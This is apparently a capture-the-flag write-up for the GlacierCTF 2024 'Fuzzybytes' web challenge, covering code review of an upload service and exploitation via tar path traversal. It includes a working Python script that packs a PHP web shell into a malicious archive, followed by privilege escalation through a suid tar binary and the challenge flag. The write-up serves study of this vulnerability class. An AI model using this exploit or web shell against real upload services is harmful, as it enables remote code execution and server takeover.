 ---------------

### CTF: GLACIER CTF 2024

---------------

![image](https://github.com/user-attachments/assets/cdce91a2-501c-40ed-8017-013608a71987)

---------------

### Challenges

- Web
  - Fuzzybytes

---------------

### Web: Fuzzybytes

![image](https://github.com/user-attachments/assets/bc6606d4-73d5-4934-b393-5305bc210a93)

---------------

### CODE REVIEW

-----------------

- The main sink can be traced with the aid of files `Dockerfile`, `upload.php` and `check_for_malicious_code.py` in the source code archive.
- Dockerfile-:

```docker
# Debian 12
# PHP 8.7.3
# Apache 2.4.59
FROM docker.io/library/php@sha256:b3ff205fcc739fc504750dab29d4c30afb2702730d37a1068a16c14f30a7d48f

RUN apt-get update && apt-get install -y python3 && apt-get clean

# Copy challenge required files
COPY ./config/php.ini $PHP_INI_DIR/php.ini
COPY ./web /var/www/html
COPY ./check_for_malicious_code.py /usr/
COPY ./flag.txt /root/flag.txt

RUN chown www-data:www-data /var/www/html/databases
RUN chmod +s /bin/tar
```

- The docker script copies the content of `web` to `/var/www/html` and copies the python script `check_for_malicious_code.py` to directory `/usr`.

```docker
COPY ./config/php.ini $PHP_INI_DIR/php.ini
COPY ./web /var/www/html
COPY ./check_for_malicious_code.py /usr/
```
- The major ones to note are outlined below,the flag file is copied to `/root/flag.txt` which means we need root privilege to read it.Secondly, ownership of directory `/var/www/html/databases` is granted to user `www-data` and lastly, suid permissions is granted to binary `tar`.

```docker
COPY ./flag.txt /root/flag.txt

RUN chown www-data:www-data /var/www/html/databases
RUN chmod +s /bin/tar
```
- Upload.php-:

```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $uploadDir = "/tmp/";
    $targetFile = $uploadDir . basename($_FILES["file"]["name"]);
    $fileExtension = pathinfo($_FILES["file"]["name"], PATHINFO_EXTENSION);
    $allowedExtensions = array('gz');

    echo '<div id="log"></div>';

    if (!in_array($fileExtension, $allowedExtensions)) {
        echo "Sorry, only .tar.gz files are allowed.";
        exit();
    }

    ob_start();

    
    function addLog($message) {
        echo "<script>document.getElementById('log').innerHTML += '$message<br>';</script>";
        ob_flush();
        flush();
    }

    addLog("Unpacking file...");
    
    if (move_uploaded_file($_FILES["file"]["tmp_name"], $targetFile)) {
        addLog("The file " . htmlspecialchars(basename($_FILES["file"]["name"])) . " has been uploaded.");

        if ($fileExtension === 'gz') {
            addLog("Scanning file...");

            // Execute python malware checker
            exec("python3 /usr/check_for_malicious_code.py " . escapeshellarg($targetFile), $output, $returnCode);

            if ($returnCode === 0) {
                addLog("Python script executed successfully.");
            } else {
                addLog("Error executing Python script.");
            }

            unlink($targetFile);
            addLog("Cleaning up...");

            addLog("Done.");

        }
    } else {
        addLog("Sorry, there was an error uploading your file.");
    }

    ob_end_flush();
}
?>



<link rel="stylesheet" type="text/css" href="styles.css">
<a href="index.php" class="back-button">Back to Homepage</a>
```

- The php file takes in a files via the `file` parameter, checks if the file ends with `gz` and only takes in `gzip` archives to prevent upload of php shells.It writes the file to `/tmp` directory.Lastly,it executes the python script that will be explain below and passes the uploaded gzip file as an argument to function `exec()`.We cannot pass in malicious systemcommand because of `escapeshellarg()`.

```php
exec("python3 /usr/check_for_malicious_code.py " . escapeshellarg($targetFile), $output, $returnCode);
```
- The main sink is in the python script which is `tarfile.extractall()`.The function `tarfile.extractall()` is vulnerable to path traversal in the sense that if an archived files is saved as `../../shell.php`,instead of saving it in the current directory.It parses the relative path and moves up 2 directories to save the file.In this scenario,the code extracts our gz file to `/tmp/<dirname>/`,we need to move up two directories to save our php shell in `/var/www/html/databases` since we have write access to it.

```python3
try:
    with tarfile.open(tar_file_path, 'r:gz') as tar:
        if not os.path.exists("/tmp/files_for_checking"):
            os.mkdir("/tmp/files_for_checking")
        tar.extractall("/tmp/files_for_checking")
    print("Successfully extracted the contents of the .tar file.")
```

### Exploitation

- I wrote a python script to create the tarfile.

```python3
#! /usr/bin/env python3
import tarfile
import io

tar = tarfile.TarFile.open('malicious.tar.gz', 'w:gz')

info = tarfile.TarInfo("../../var/www/html/databases/shell.php")
info.mode=0o444 # So it cannot be overwritten
php_shell = b"<?php echo system($_GET['cmd']); ?>"
info.size=len(php_shell)
tar.addfile(info,io.BytesIO(php_shell))
tar.close()
```

- Then,I uploaded it with curl

![image](https://github.com/user-attachments/assets/9df73440-efd6-4ed6-8bd3-d326fa14643e)

- RCE achieved-:

![image](https://github.com/user-attachments/assets/9e01d743-08c4-4759-a13b-10b288b4986a)

- Shell access-:

![image](https://github.com/user-attachments/assets/0d042417-02fc-490f-8275-0353abbc5b3b)

- I read the flag with suid binary `tar`.

![image](https://github.com/user-attachments/assets/34315eb1-3d38-410a-b2e9-c13362d0ab34)

- Flag-:```gctf{c0nGr4tZ_on_Z1p_sLiDinG_4nD_Tar_diving}```




